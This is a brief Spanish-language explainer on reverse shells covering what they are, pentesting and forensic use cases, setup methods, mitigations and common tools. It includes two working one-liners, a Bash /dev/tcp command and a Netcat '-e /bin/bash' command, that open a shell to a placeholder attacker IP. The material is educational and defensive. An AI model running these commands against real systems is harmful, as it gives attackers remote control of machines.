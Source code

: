 -----------
- Tags: #Security #Hacking #Pentesting #ReverseShell #RemoteAccess
----------- 

# Descripción
Un reverse shell es una técnica utilizada en seguridad informática donde un dispositivo comprometido (cliente) abre una conexión de red hacia un servidor controlado por el atacante. Esto permite al atacante enviar comandos y controlar el dispositivo remotamente.

# Escenarios de uso

- Pentesting: Para demostrar la capacidad de obtener control sobre un sistema durante una evaluación de seguridad.
- Respuestas a incidentes y análisis forense: Para entender cómo los atacantes pueden obtener control remoto y tomar medidas para mitigar tales amenazas.

# Métodos de establecimiento

- Uso de herramientas existentes: Como Netcat, que puede configurarse tanto en el lado del atacante como en el del cliente para crear un reverse shell.
- Scripts personalizados: Escritos en Bash, Python, PHP, Perl, o cualquier otro lenguaje que permita la ejecución de comandos del sistema y la comunicación de red.
    Ejemplos:
    Bash:
    ```bash
    bash -i >& /dev/tcp/ipAtacante/puerto 0>&1
    ```
    Netcat
    ```bash
    nc -e /bin/bash ipAtacante puerto
    ```
- Explotación de vulnerabilidades: Como inyecciones SQL, XSS o RCE, donde el código malicioso para el reverse shell se inyecta y ejecuta en el sistema objetivo.

# Prevención y Mitigación:

- Estrictas políticas de firewall y filtrado de red: Para bloquear conexiones salientes no autorizadas.
- Monitoreo y auditoría de red: Para detectar patrones anómalos que puedan indicar un intento de establecimiento de un reverse shell.
- Hardening de aplicaciones y sistemas: Para reducir las superficies de ataque y la probabilidad de que los atacantes exploten vulnerabilidades.

# Herramientas comunes

- Netcat (nc): A menudo utilizado para crear conexiones de red arbitrarias.
- PowerShell: Para sistemas basados en Windows, se pueden utilizar scripts de PowerShell para establecer un reverse shell.
- Bash: En sistemas Linux, se puede usar un simple script de Bash para conectar de nuevo al servidor del atacante.

